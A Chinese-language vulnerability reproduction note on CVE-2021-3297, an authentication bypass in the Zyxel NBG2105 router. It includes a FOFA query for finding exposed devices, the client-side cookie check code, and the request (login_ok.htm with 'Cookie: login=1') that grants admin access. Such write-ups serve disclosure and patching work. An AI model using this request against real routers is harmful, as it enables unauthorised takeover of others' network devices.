 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/1.png)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/2.png)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](resource/Zyxel-NBG2105-身份验证绕过-CVE-2021-3297/media/3.png)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass
